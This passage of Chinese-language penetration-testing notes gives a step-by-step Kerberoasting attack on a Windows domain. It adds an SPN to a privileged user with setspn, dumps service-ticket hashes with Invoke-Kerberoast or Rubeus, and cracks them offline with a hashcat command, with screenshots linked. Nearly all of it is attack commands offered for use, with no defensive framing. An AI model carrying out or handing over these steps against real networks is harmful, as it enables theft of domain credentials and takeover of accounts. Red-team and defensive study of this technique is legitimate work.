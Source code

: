 	当有setspn权限时，为域用户添加一个SPN
	>setspn -U -A RDP/zone.com godadmin
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/549.png)

	域内任何主机可以使用Kerberoast 获得TGS
	https://github.com/malachitheninja/Invoke-Kerberoast
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/550.png)

	>Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation |Out-File xx.txt
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/551.png)

	或使用rubeus.exe
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/552.png)

	破解
	>hashcat -m 13100 -a 0 kerberos.txt wordlist.txt